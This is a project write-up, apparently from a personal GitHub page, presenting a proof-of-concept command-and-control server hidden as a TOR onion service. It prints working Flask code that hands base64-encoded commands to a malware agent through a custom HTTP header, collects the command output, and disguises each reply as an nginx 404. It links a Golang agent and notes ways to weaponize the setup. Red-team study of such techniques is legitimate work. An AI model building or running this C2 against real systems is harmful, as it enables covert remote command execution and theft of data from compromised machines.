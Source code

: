 ```yaml
---
title: C2 Over TOR
layout: page
type: project
meta: Proof of Concept - C2 Over TOR
---
```


# C2 Over TOR

### Introduction
This project is about setting up a _Command and Control_ as a hidden service in TOR network. An onion link is embedded in an agent or "malware" that constantly connects to that hidden service. The C2 itself is a simple flask server that sets the command to execute in the HTTP header and then expects the output from the agent. The output is just simply dumped in a file.


### Architecture

Below is the diagram of the architecture.<br />
![Diagram](images/1.jpg)
<br />

The C2 is served as a hidden service. The agent or "malware" would connect to it through the TOR network. HTTP method must be "PUT" to fetch C2 commands. The command is stuffed in **X-CNC** header in the HTTP response. HTTP method must be  "OPTIONS" to return command output. It is stuffed by agent in the **Cnc-Output** HTTP response header. Below can be seen the flask handling of the HTTP interaction. Commands can be set in **commands.txt** . 

#### The Command and Control Server
``` python 
# In c2_server/app.py
...
@app.route('/s3cr3t', methods=['PUT', 'OPTIONS'])
def s3cr3t_cnc():
    # OPTIONS = Accepting CNC result
    resp = make_response(render_template('404.html'))
    resp.headers.set('Server', 'nginx')
    if request.method == 'OPTIONS':
        # Get CNC results
        foo = dict(request.headers)
        if foo.get('Cnc-Output', None) != None:
            command_output = b64decode(foo['Cnc-Output'])
            command_output = b"\n\n\n\n\n\n"+command_output
            write_to_file(command_output_file, command_output, w_type="ab")

        return resp, 404


    # PUT = Sending CNC commands
    elif request.method == 'PUT':
        # Set the command in the headers and in base64
        command = read_from_file(command_file,r_type="rb")
        resp.headers.set(b'X-CNC', b64encode(command))
        return resp, 404
    else:
        return resp, 404
...
```
<br />The totality of the code just returns 404 regardless there is a hit or not. In my setup, it is also behind an Nginx server and redirects traffic to http://127.0.0.1:8000/s3cr3t if _/s3cr3t_ is hit.  

#### The Agent

Below is the agent's activity Cycle.<br />
![Diagram](images/2.jpg)
<br />

The code is written in Golang and can be seen [here](https://github.com/Altelus1/c2_tor/blob/master/agent/main.go). In the main repository also can be seen the non tor agent to test things out in  local environment. Links can be replaced by IPs instead of onion links.

### PoC

Running C2 and the agent.<br />
![PoC](images/poc_c2tor.gif)

### End notes
Running C2 as a hidden service would come in pros and cons. Pros would be the likes of being anonymous, be able to self-hos thus having a full control, or having a dynamic generated onion hostnames. Cons would be the likes of being easy to be detected in network and in host threat hunting or having a muuuuch slower connection to a normal C2. Enhancements or workarounds can be done to remediate the cons or weaponize the pros. At the end of the day, this is just one of the techniques can be used to serve a C2.
<br />


**Resources:**
- https://medium.com/@rishabhlakhotia/setting-up-tor-hidden-service-8af1875921c6
- https://hackernoon.com/setting-up-a-tor-hidden-service-a-how-to-guide-zs1s3yoy
- https://github.com/cretz/bine
- https://flask.palletsprojects.com/en/2.0.x/
- https://pkg.go.dev/net/http


